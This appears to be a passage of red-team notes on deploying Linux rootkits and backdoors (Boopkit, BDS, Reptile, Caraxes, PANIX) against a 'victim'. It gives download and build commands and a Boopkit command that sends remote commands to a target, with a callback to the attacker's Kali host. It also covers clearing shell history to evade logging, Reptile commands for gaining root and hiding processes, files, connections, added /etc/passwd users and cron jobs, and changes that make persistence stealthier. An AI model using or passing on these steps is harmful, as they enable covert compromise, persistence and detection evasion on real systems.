         - Will need `sysctl kernel.ftrace_enabled=1` and also check if `make` and `gcc` exist
    - Clear history: ` history -c && rm -f $HISTFILE` 
      - Having space is important, seems to prevent logging even on newer kernels
- [Boopkit](https://github.com/krisnova/boopkit)
  - Sneaky amazing backdoor that functions via back checksum TCP packets
  - `wget https://github.com/kris-nova/boopkit/archive/refs/tags/v1.4.1.tar.gz`
    - `apt install clang make bpftool libbpf-dev gcc-multilib llvm libxdp-dev libpcap-dev`
  - Then, run on victim with `boopkit -i {network_interface} -q`
    - We need to find a way to get the default network interface
  - Then, after making on Kali, can run `boopkit-boop -rhost {target} -rport 3535 -c '{command}' -lhost {kali_IP} -lport {kali_port}`
  - Listens on TCP 3545 
- [BDS](https://github.com/bluedragonsecurity/bds_lkm_ftrace)
  - Good compatibility, works on 6.x tested
    - Let's check out the non-ftrace one and userland one?
    - We need to slightly modify to allow hiding arbitrary ports/sockets
    - Removed `rc.local` persistence - non-sneaky, and borks systems with checks for kernel tainting in startup
  - Supports hiding files, backdoors, privescs, and hiding network connections (though only its connection, but we can easily change that)
  - Config
    - Can be specified in `kernelspace/includes/bds_vars.h`
- [Reptile](https://web.archive.org/web/20250703011339/https://github.com/f0rb1dd3n/Reptile/archive/refs/heads/master.zip)
  - Absolutely nutty rootkit for 2.6.x, 3.x, or 4.x, seems to be the go-to
    - Has persistent, detection evasion, a nice management interface
  - Downloadable [here](https://web.archive.org/web/20240220194314/https://codeload.github.com/f0rb1dd3n/Reptile/zip/refs/heads/master)
  - Wiki [here](https://web.archive.org/web/20201226000229/https://github.com/f0rb1dd3n/Reptile/wiki/Install)
  - Config:
    - In `config/defconfig`, then after configuring we run `make defconfig`
  - Install:
    - `apt install build-essential linux-headers-$(uname -r)`
    - `make menuconfig`, `make`, and `make install`
  - Bugs:
    - Reptile will hide more stuff than necessary in affected directories
    - Until we fix this, we can rename `/reptile` to `/reptiled`
  - Usage:
    - `/reptile/reptile_cmd {show/hide}` to show/hide all hidden files
    - `/reptile/reptile_cmd root` to get root
    - `/reptile/reptile_cmd {show/hide} {pid}` to show/hide processes
    - `/reptile/reptile_cmd conn {IP} {show/hide}` to show/hide ICP/UDP connections
    - Content between `#<reptile>` and `#</reptile>` will be hidden
      - Can be toggled with `reptile_cmd file-tampering`
      - Works with both adding users to `/etc/passwd` and cron jobs
        - Actually, having some trouble getting it working with cron jobs
      - However, ssh seems resistant. Can't seem to permit root logins with a hidden line or add an hidden authorized keys file
    - Couldn't get kali-side build working, so we can use prism for the shell
- [Caraxes](https://github.com/ait-aecid/caraxes/)
  - Seems to be pretty good for 5.14-6.11, but a bit lacking on functionality
    - This one would make a nice starting place for building our own
  - Will need to uncomment the `hide_module()` function
  - Good for hiding files - we can set the word to hide in `rootkit.h`
- [PANIX](https://github.com/Aegrah/PANIX)
  - One-stop shop for lots of persistence methods, this thing is a great reference
